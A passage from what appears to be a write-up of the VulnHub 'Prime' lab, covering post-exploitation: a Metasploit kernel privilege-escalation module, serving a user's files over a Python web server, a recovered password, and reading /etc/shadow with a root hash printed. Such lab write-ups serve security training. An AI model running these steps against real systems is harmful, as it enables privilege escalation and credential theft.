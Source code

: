 ```
  use exploit/linux/local/bpf_sign_extension_priv_esc
  ```

---

### Post Exploitation

- `cd /home/victor/Pictures`
- There is a screenshot which might be worth looking into.
- `python3 -m http.server 5050`
- ```
  http://10.0.2.15:5050/Screenshot%20from%202019-08-29%2011-27-05.png
  ```

![VulnHub Prime victor Password Screenshot](/imgs/prime/prime_victor_password_screenshot.png)

- ```
  victor:victorcandoanything
  ```
- I tried this password everywhere but it didn't work.

- `cat /etc/shadow`

```
root:$6$4JnZ9LD4$rvVg3L9wZnrTrFPHOvHfWav7WObqy/TybGeH6cQX3Z.bBMbRUnFkh2314qjAHbazsB7L.h/vd/ypi1XSnqC6E0:18140:0:99999:7:::
```
